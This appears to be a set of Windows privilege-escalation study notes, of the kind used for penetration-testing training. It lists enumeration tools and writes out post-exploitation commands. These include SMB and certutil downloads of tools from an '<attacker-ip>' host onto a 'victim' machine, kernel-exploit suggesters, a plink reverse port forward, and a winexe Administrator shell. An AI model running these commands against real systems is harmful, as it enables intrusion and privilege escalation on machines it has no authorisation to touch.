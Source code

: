 ## Exploring Automated Tools
**Some Automated Tools**
- WinPEAS - https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
- Windows PrivEsc Checklist - https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation
- Sherlock - https://github.com/rasta-mouse/Sherlock
- Watson - https://github.com/rasta-mouse/Watson
- PowerUp - https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
- JAWS - https://github.com/411Hall/JAWS
- Windows Exploit Suggester - https://github.com/AonCyberLabs/Windows-Exploit-Suggester
- Metasploit Local Exploit Suggester - https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/
- Seatbelt - https://github.com/GhostPack/Seatbelt
- SharpUp - https://github.com/GhostPack/

**Tools Delivery**
- Create a SMB Server in you machine.
- `impacket-smbserver.py <shareName> <sharePath> -smb2support`
	- where, shareName is the name to which SMB will be connected and sharePath is the directory to which attacker is hosting, '.' to host current directory.
- In victim machine,
- Connect
	- `net use \\[host]\[shareName]`
- Copy the file to victim
	- `copy \\[host]\[shareName]\tools.exe \windows\temp\a.exe`
- Close the connection
	- `net use /d \\[host]\[shareName]`
- For more ways to transfer the files: https://medium.com/@dr.spitfire/ocsp-file-transfer-recipe-for-delicious-post-exploitation-a407e00f7346
- We can also use certutil to download the file from windows cmd.
- In attacker machine
	- `python3 -m http.server 1337`
- In victim's machine
	- `certutil -urlcache -f http://<attacker-ip>:1337/test.exe test.exe`

## Escalation Path: Kernel Exploits
**Escalation with Metasploit**
- After Metrepreter
	- `run post/multi/recon/local_exploit_suggester`

**Manual Kernel Exploitation**
- In windows PS
	- `systeminfo`
	- Copy the data from above commands.
- In attacker machine
	- Save the data in a text file
	- `windows-exploit-suggester.py --database <db-date>.xlsx --systeminfo systeminfo.txt `
- Windows Kernel Exploits - https://github.com/SecWiki/windows-kernel-exploits

## Escalation Path: Stored Passwords and Port Forwarding
 - Sometimes there are servies that are only accessible from inside the nnetwork. These services might be vulnerable since they are not meant to be seen from the outside
 - View such ports cmd: `netstat -ano`, suppose you got port 445
 - Open an SSH server on an attacker machine
- Fort port using [plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) in windows
	- `plink.exe -l <attackerusername> -pw <attackerpassword> <attackerIP> -R 445:127.0.0.1:445`
- `winexe -U Administrator%Welcome1! //127.0.0.1 "cmd.exe"`
